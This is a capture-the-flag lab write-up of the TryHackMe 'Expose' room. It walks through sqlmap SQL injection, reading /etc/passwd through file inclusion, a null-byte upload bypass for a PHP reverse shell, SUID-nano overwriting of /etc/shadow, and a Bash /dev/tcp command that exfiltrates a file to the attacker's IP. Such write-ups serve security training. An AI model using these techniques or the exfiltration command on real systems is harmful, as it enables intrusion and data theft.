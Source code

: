 # Expose
**Completed 02/04/2024** 

https://tryhackme.com/room/expose

**Devices:** 
My Kali VM: 10.6.23.137 
Expose VM: 10.10.209.238 

**Flags:** 
1. /home/zeamkish/flag.txt: THM{USER_FLAG_1231_EXPOSE}
2. /root/flag.txt: THM{ROOT_EXPOSED_1001}

# **Recon**
## nmap 
- Ran `nmap -sT -p- 10.10.209.238` to check open ports
	- -p- checks all ports (1-65535)
- Found ports 21, 22, 53, 1337, and 1883 open
- Refining the scan with `nmap -sT -sV -p 21,22,53,1337,1883 10.10.209.238` reveals running services
- Port 1337/tcp is running an Apache web server

## gobuster
- Running `gobuster dir -u http://10.10.209.238:1337 -w /usr/share/wordlists/dirb/big.txt` gives initial URLs to check
- Found `/admin_101`, `/admin`, and `/phpmyadmin` from the scan

# **User Flag**
- Navigating to `http://10.10.209.238:1337/admin_101` reveals a login form with the email already filled in as `hacker@root.thm`

## SQL Injection
- The CTF specifically lists sqlmap as a provided tool, so let's check for SQLi vulnerabilities
- We submit a random password and capture the request in Burp Suite for analysis
- Right click > Save item, save in challenge folder as `req` (or any other name)

### sqlmap
- Run `sqlmap -r req --dump` to automatically run a scan using info from the request itself
- Say yes to limiting tests to MySQL-specific ones only
- When a hashed password is found, say yes to brute forcing it, revealing the password `easytohack`
- ASCII tables will be output near the end showing the located information from the SQLi attacks
- `/file1010111/index.php` uses `easytohack` as its password
- `/upload-cv00101011/index.php` requires a username starting with Z

## Query Parameter Injection
- Upon visiting `/file1010111/index.php` we are told to fuzz for parameters
- Checking the page source, there is a hint to use `file` or `view` as GET parameters
- If we add `?file=/etc/passwd` to the end of the URL, the contents are output on the page, revealing a user named `zeamkish`
- We can now go to `/upload-cv00101011/index.php` and provide the password of `zeamkish`

## PHP Reverse Shell
### Uploading the reverse shell
- There is a file upload prompt, and checking the page source reveals that only .png and .jpg files are accepted. We want a PHP Reverse Shell, so it's time to experiment
- Uploading a normal .png file leads to a page telling us to check the page source for the location that it was uploaded to, which is provided as `/upload_thm_1001`
- Navigating to `/upload-cv00101011/upload_thm_1001` reveals a file tree including the uploaded image, which we can view
- Next, I made a copy of `/usr/share/webshells/php/php_reverse_shell.php` (PHP Reverse Shell) in my CTF directory, and renamed it to `shell.phpD.png`
	- I set the target IP to my own and the port to 53 since it is unlikely to be blocked by outbound firewalls
	- I chose the file for upload, set Burp Suite proxy to intercept, and clicked the upload button
	- With the request in Burp Suite, I replaced the 'D' in the file name with a null byte (hex 00, ignoring the .png afterwards), and forwarded the request along
	- The file uploads successfully, and it is visible in `/upload_thm_1001`

### Using the reverse shell
- I set up a listener with `nc -lvnp 53`, then clicked on the `shell.php` file on the page
	- The reverse shell runs and netcat catches the connection, giving us shell access
	- I ran `python3 -c 'import pty; pty.spawn("/bin/bash")'`, upgrading to a better shell environment
	- Running `whoami` reveals that I am currently the www-data user

## Getting the flag
- `ls /home/zeamkish` reveals two files: `flag.txt` and `ssh_cred.txt`
- flag.txt is inaccessible to this user, but ssh_cred.txt reveals the SSH password for zeamkish is `easytohack@123`
- With credentials in hand, I ran `ssh zeamkish@10.10.209.238` and logged into the zeamkish user account
    - `cat flag.txt` reveals the first flag, THM{USER_FLAG_1231_EXPOSE}
    
# **Root Flag**
## Privilege Escalation
- The only remaining flag is the root flag, so privilege escalation is necessary
    - `find / -perm -04000 -type f -ls 2>/dev/null` reveals programs that have their SUID set in useful ways
    - nano is in the list, which means we can both read _and write_ files with root privileges
    - I used `nano /etc/shadow` to check that I could edit a file outside of zeamkish's privileges, and it opened successfully

### Injecting a new password hash
- A rather aggressive method if privilege escalation in this case is to use openssl to create a new salted root password and insert it into `/etc/shadow`
    - Running `openssl passwd -1 -salt root 1234` outputs `$1$root$.fAWE/htZAqQge.bvM16O/`
    - We can use nano to open the shadow file again, replacing everything after "root:" and before ":xxxxx:0:xxxxx:x ::::" with the new value
- The root user now has the password `1234`, so we can login easily
    - I ran `su root` and entered the new password, logging in successfully
    - I was now under `/root/` and could use `cat flag.txt` to reveal the final flag, THM{ROOT_EXPOSED_1001}


# **Lessons Learned**
- Use `-p-` and different scan modes with nmap to ensure all relevant ports are located
    - I did not find port 1337 initially, which led me on a useless path trying to do something with FTP on port 21
    - Remember to also use `-sV` with specific ports of interest afterwards to enumerate running services

- Remember to use gobuster or other directory enumeration tools to check subdirectories after the root scan
    - May not find much of interest, may add tons of useful info

- Using Burp Suite to intercept all kinds of requests can come in handy
    - At the very least, it allows requests to be analyzed for anything unusual or exploitable
    - A saved request can be used to run sqlmap extremely easily
    - If a file uploader only accepts certain file extensions and we want to upload a malicious payload, name the file as `<name>`.`<invalid_ext>`X`valid_ext` (i.e. `shell.phpX.png`), intercept the HTTP POST request, set the X to a null byte (hex code 00), then forward it
	
- Use [gtfobins](https://gtfobins.github.io/) to find privilege escalation vectors
    - Base searches off of output of `find / -perm -04000 -type f -ls 2>/dev/null`
    - If nano is in that list, you get the power to change anything you want

- Basic data exfiltration can be done through Bash
    - Set up a listener on port 80 with `nc -lvnp 80 > FILENAME` on the local machine (or proxy, whatever you have access to for exfiltration)
    - Run `bash -c 'echo -e "POST / HTTP/0.9\n\n$(<flag.txt)" > /dev/tcp/RHOST/RPORT` on the compromised machine
	    - (`RHOST` = 10.6.23.137 and `RPORT` = 80 in this case)
    - The target will send the file data as the body of an HTTP POST request, which your netcat listener receives and outputs to a new local file